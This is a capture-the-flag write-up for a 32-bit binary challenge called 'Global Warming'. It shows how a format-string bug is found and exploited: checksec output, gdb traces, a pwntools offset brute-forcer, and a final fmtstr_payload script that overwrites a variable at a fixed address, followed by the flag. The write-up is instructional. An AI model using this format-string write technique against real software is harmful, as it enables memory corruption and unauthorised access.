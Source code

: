 # Global Warming

## Global Warming

### Protections

Let's first run `checksec` to see what protections the file has:

```text
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Here we don't see many protection, there's only `NX`, which means no shellcode, and `ASLR` is likely enabled serverside

### Running the file

Running the file we see that we are first prompted for input, and then when we enter some, we are given an error message, and then terminates:

```text
$ ./global-warming
aaaa
aaaa
You cannot login as admin.
```

However it's important to note that our input is printed back to us, let's check for a format string exploit:

```text
$ ./global-warming
%x
f7f2d2c0
You cannot login as admin.
```

And it's fortunately vulnerable to format strings

### Reversing

Let's load this into ghidra to get some pseudo-c code

![](../../../../../.gitbook/assets/globalwarmingmain.png)

Here we see it take input with fgets, where it makes a secure copy to the buffer \(reads 1024 into a 1024 big buffer\), so no buffer overflow here. It then calls `login` with this input, and another value that's unknown. Let's check in gdb what this is:

```text
   0x804928a <main+139>:        push   eax
   0x804928b <main+140>:        lea    eax,[ebx-0x1fd0]
   0x8049291 <main+146>:        push   eax
=> 0x8049292 <main+147>:        call   0x80491a6 <login>
   0x8049297 <main+152>:        add    esp,0x10
   0x804929a <main+155>:        mov    eax,0x0
   0x804929f <main+160>:        lea    esp,[ebp-0x8]
   0x80492a2 <main+163>:        pop    ecx
Guessed arguments:
arg[0]: 0x804a030 ("User")
arg[1]: 0xffffce90 ("aaaa\n")
```

Seems like a `user` variable that we might need to change. Let's decompile `login`:

![](../../../../../.gitbook/assets/globalwarminglogin.png)

So it prints our input back to us without a format specifier, hence the format string exploit. Then it compares a variable to the value `0xb4dbabe3`, if equal, we get the flag

We can just assume that the previous value is that variable, but let's just check that with gdb:

```text
=> 0x80491c6 <login+32>:        mov    eax,DWORD PTR [ebx+0x2c]    <== moves the value into eax
   0x80491cc <login+38>:        cmp    eax,0xb4dbabe3              <== compares with the value
   0x80491d1 <login+43>:        jne    0x80491e7 <login+65>        <== jumps past the flag if they aren't equal
```

Here's the `if` statement if assembly. At this instruction:

```text
EBX: 0x804c000 --> 0x804bf00 --> 0x1
```

So the variable is stored at `0x804c02c`, not at `0x804a030`

### Exploit

To complete this challenge we need to use the format string exploit to _write_ the value `0xb4dbabe3` at that memory address \(with the use of `%n`\), so we can pass the check, and get the flag. Fortunately, pwntools has a feature to automate this for us:

`fmtstr_payload(offset, {address : value}`

Since we are writing at the address `0x804c02c`, `address` would be that, and `value` is `0xb4babe3`

We need to find the offset though, which is basically the format string offset where it shows us our input. For example, if I did:

```text
AAAA %6$x
```

And it returned:

```text
AAAA 41414141
```

`6` would be our offset

To find this, I used the below program to brute force it:

```python
from pwn import *

e = ELF("./global-warming")

for i in range(20):
    io = e.process(level="error")
    io.sendline("AAAA %%%d$lx"% i )
    print("%d - %s" % (i, io.recvline().strip()))
    io.close()
```

Running it:

```text
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0 - b'AAAA %0$lx'
1 - b'AAAA f7f5f2c0'
2 - b'AAAA fbad2087'
3 - b'AAAA 80491b2'
4 - b'AAAA f7f20000'
5 - b'AAAA 804c000'
6 - b'AAAA ffd235b8'
7 - b'AAAA 8049297'
8 - b'AAAA 804a030'
9 - b'AAAA fff1e550'
10 - b'AAAA f7eff580'
11 - b'AAAA 8049219'
12 - b'AAAA 41414141'   <== this one
13 - b'AAAA 33312520'
14 - b'AAAA a786c24'
15 - b'AAAA fff92800'
16 - b'AAAA 3'
17 - b'AAAA 0'
18 - b'AAAA f7fc9000'
19 - b'AAAA f7d04748'
```

We find our offset is `12`. This makes our payload look like this:

```text
fmtstr_payload(12 , {0x804c02c : 0xb4dbabe3})
```

### Script

Our final exploit script now looks like this:

```python
from pwn import *

p = remote("chall.csivit.com", 30023)

value = 0xb4dbabe3

payload = fmtstr_payload(12 , {0x804c02c : value})

p.sendline(payload)

print(p.clean())
```

**csictf{n0**_**5tr1ng5**_**@tt@ch3d}**

